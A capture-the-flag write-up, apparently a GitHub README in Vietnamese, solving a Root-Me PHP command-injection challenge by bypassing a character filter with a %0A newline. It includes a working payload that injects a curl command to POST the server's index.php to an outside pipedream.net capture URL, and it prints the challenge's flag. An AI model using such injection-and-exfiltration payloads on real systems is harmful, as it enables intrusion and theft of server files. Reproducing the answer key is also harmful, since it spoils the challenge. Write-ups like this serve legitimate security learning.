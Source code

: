 # PHP- Command injection

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FTienNHM%2Froot-me-ctf%2Ftree%2Fmaster%2FWeb-server%2FCommand%2520injection%2520-%2520Filter%2520bypass&count_bg=%2379C83D&title_bg=%232D8FFF&icon=markdown.svg&icon_color=%23092753&title=Visitors&edge_flat=false)](https://hits.seeyoufarm.com)

\*\*\*Link: [http://challenge01.root-me.org/web-serveur/ch53/index.php](http://challenge01.root-me.org/web-serveur/ch53/index.php)

## Request

![](sc.png)

## Solution

```js
 *** Với bài này, một số filter đã được thêm vào nên không thể sử dụng những kí tự $,$$ ,|, ||,.. hay các
từ cat, ls,...

Nhưng khi sử dụng %0A vừa có thể bypass qua filter, vừa thực thi được command (we can break this command and excute new command via %0a)
```

#### Step1: Thử xem có thể bypass bằng %0a không, thêm một đoạn url được tạo ra để bắt request, bước sau sẽ dùng ( dùng trang https://pipedream.com/ để tạo url)

![](step1.png)

Ta thấy trả về "Ping ok" vậy là có thể bypass.

![](result1.png)

#### Step2: Thực thi lệnh wget để gửi file index.php ( vì trong file sẽ chứa flag) bằng request trên.

```js
=> ip=localhost%0Acurl -X POST -F file=@index.php https://enb393uk8n8ckk.m.pipedream.net?id=abc
```

![](step2.png)

Nhận được request trong trang web, trong body sẽ có url , đây là nơi lưu file index.php mà chúng ta đã gửi.

![](url.png)

![](file.png)

```HTML
***Vậy pass là: Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!
```
